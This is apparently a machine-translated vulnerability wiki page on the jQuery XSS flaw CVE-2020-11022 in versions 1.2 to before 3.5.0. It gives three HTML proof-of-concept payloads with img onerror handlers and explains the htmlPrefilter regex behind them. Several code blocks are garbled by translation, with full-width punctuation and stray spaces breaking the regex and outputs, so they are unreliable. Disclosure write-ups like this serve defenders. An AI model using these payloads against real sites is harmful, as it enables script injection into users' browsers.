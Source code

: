 # jQuery XSS vulnerability CVE-2020-11022

## Vulnerability Description

According to NVD description: In jQuery versions greater than or equal to 1.2 and before 3.5.0, even if sanitize is performed, DOM operation methods (i.e. html(), .append(), etc.) passing HTML from untrusted sources to jQuery will still be executed, resulting in xss vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">3.5.0 > jQuery >= 1.2</span>

## Vulnerability reappears


</a-alert>
<br/>

```python
PoC 1.
<style><style /><img src=x onerror=alert(1)> 

PoC 2. (Only jQuery 3.x affected)
<img alt="<x" title="/><img src=x onerror=alert(1)>">

PoC 3.
<option><style></option></select><img src=x onerror=alert(1)></style>
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313095322217.png)



PoC 1 and PoC 2 have the same root cause. 

```plain
rxhtmlTag = / <（?! area | br | col | embed | hr | img | input | link | meta | param）（（[[ww：-] +）[^>] *）\ /> / gi
[。 ..]
htmlPrefilter：function（html）{
  return html.replace（rxhtmlTag，“ <$ 1> </ $ 2>”）;
}
```

If the HTML of PoC 1 is replaced by this, the output will be:

```plain
> $ .htmlPrefilter（'<style> <style /> <img src = x onerror = alert（1）>'）
<“ <style> <style> </ style> <img src = x onerror = alert（1） >“
```

The yellow part is the replaced string. 

By the way, the above regular expression is used in jQuery before 3.x. 

```plain
rxhtmlTag = / <（?! area | br | col | embed | hr | img | input | link | meta | param）（（[[az] [^ \ / \ 0> \ x20 \ t \ r \ n \ f] *）[^>] *）\ /> / gi
```

This change introduces another XSS vector that may only result in XSS by more basic elements and attributes. 

```plain
> $ .htmlPrefilter（'<img alt =“ <x” title =“ /> <img src = x onerror = alert（1）>”>'）
<“ <img alt =” <x“ title =”> < / x“> <img src = x onerror = alert（1）>”>“
```

In this case, the img string on the property value is kicked out and XSS occurs.